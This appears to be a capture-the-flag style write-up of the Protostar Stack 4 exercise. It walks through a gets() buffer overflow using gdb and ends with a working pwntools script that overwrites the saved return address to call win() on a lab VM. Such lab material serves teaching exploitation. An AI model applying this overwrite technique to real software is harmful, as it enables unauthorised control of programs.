 
# Stack 4


```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}

```
vulnerability :  usage of gets() function will lead to buffer overflow

goal :  overwrite the instruction pointer (eip) with the address of 'win' 


Let's start by looking the assembly code of the main function with gdb.

## static analysis 


```asm

0x08048408 <main+0>:	push   ebp
0x08048409 <main+1>:	mov    ebp,esp
0x0804840b <main+3>:	and    esp,0xfffffff0
0x0804840e <main+6>:	sub    esp,0x50
0x08048411 <main+9>:	lea    eax,[esp+0x10] <---- 2) eax points on [esp+0x10] (this is where 'buffer' start)
0x08048415 <main+13>:	mov    DWORD PTR [esp],eax  <--- 1) eax points on the content of 'buffer'
0x08048418 <main+16>:	call   0x804830c <gets@plt>
0x0804841d <main+21>:	leave  
0x0804841e <main+22>:	ret 

```

The stack will look like this  : 


```


  |  |---------------------|
  |  |                     |
  |  |    ......           |
  |  |---------------------|
  |  |                     | 
  |  |       Seip          | 
  |  |                     | 
  |  |---------------------|
  |  |                     |
  |  |       Sebp          |   
  |  |                     |
  |  |---------------------| <---- esp+0x50     ^                                             
  |  |                     |                    |        
  |  |       buffer        |                    |          
  |  |                     |                    |       
  |  |                     |                    |  0x50      
  |  |                     |                    |  
  |  |---------------------| <---esp+0x10       |    
  |  |       .....         |                    |  
  |  |---------------------| <-- esp            v  
  v                                              

```

So it seems that we need to add 0x50-0x10= 64  + 4 bytes for ebp + address of win to overwrite the save eip.

But if you have try to exploit it won't works , actually with forgot something during the static analysis : 

  `and    esp,0xfffffff0`  => this line is changing esp , the lowest bytes is change to 0  so our previous assumption is false.
    

Let's verify it with a dynamic analysis.



## Dynamic analysis

Let's see where is the save ebp in the stack first.

To do so : 

```gdb 

(gdb) set disassembly-flavor intel       # the default syntax is at&t i preferred intel one
(gdb) disas main       
Dump of assembler code for function main:
0x08048408 <main+0>:	push   ebp
0x08048409 <main+1>:	mov    ebp,esp
0x0804840b <main+3>:	and    esp,0xfffffff0
0x0804840e <main+6>:	sub    esp,0x50
0x08048411 <main+9>:	lea    eax,[esp+0x10]
0x08048415 <main+13>:	mov    DWORD PTR [esp],eax
0x08048418 <main+16>:	call   0x804830c <gets@plt>
0x0804841d <main+21>:	leave  
0x0804841e <main+22>:	ret    
End of assembler dump.
(gdb) b* 0x0804841d            # breaking just after the call of gets()
(gdb) r                        # run the program with 64 bytes, we just fill 'buffer'
Starting program: /opt/protostar/bin/stack4 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA


(gdb) x/x $ebp    # let's find where is the save ebp on the stack
0xbffff7c8:	0xbffff848


(gdb) x/25x $esp    # how close are we from the save ebp ?
0xbffff770:	0xbffff780	0xb7ec6165	0xbffff788	0xb7eada75
0xbffff780:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff790:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff7a0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff7b0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff7c0:	0x08048400	0x00000000	0xbffff848	0xb7eadc76
0xbffff7d0:	0x00000001


Ok so 8 bytes more and we can overwrite the save ebp and 4 bytes further we can 
overwrite the save eip


```
So the stack look more like this :


```


  |  |---------------------|
  |  |                     |
  |  |    ......           |
  |  |---------------------|
  |  |                     | 
  |  |       Seip          | 
  |  |                     | 
  |  |---------------------|
  |  |                     |
  |  |       Sebp          |   
  |  |                     |
  |  |---------------------|
  |  |                     |
  |  |   8 bytes padding   |
  |  |---------------------|
  |  |                     |                            
  |  |       buffer        |                              
  |  |                     |                           
  |  |                     |                            
  |  |                     |                      
  |  |---------------------|            
  |  |       .....         |                      
  |  |---------------------|               
  v                                              

```


Our payload will look like this : 

'A' * 64 + 'B' * 8 + 'C'*4 +  win_address

'A' * 64: to fill  'buffer'
'B' * 8 : 8 bytes more to overwrite the padding
'C' * 4: 4 bytes more to overwrite the save ebp
and finally we can overwrite the save eip with the win_address 

We can simplify it with :
'A'* 76  + win_address


To find the address of win : 

```
(gdb) disas win
Dump of assembler code for function win:
0x080483f4 <win+0>:	push   ebp
0x080483f5 <win+1>:	mov    ebp,esp
0x080483f7 <win+3>:	sub    esp,0x18
0x080483fa <win+6>:	mov    DWORD PTR [esp],0x80484e0
0x08048401 <win+13>:	call   0x804832c <puts@plt>
0x08048406 <win+18>:	leave  
0x08048407 <win+19>:	ret    
End of assembler dump.

```
Let's jump at 0x080483f4

## script: 


```python
from pwn import *

r = ssh(host='192.168.160.128', user='user', password='user')

my_ps = r.run(['/opt/protostar/bin/stack4'])

payload = b"A"*76 + p32(0x080483f4) 

my_ps.sendline(payload)

print(my_ps.recvline())

```

And we got our response : 

![](win_mess.png)


Thank you for reading, hope you learn something :) 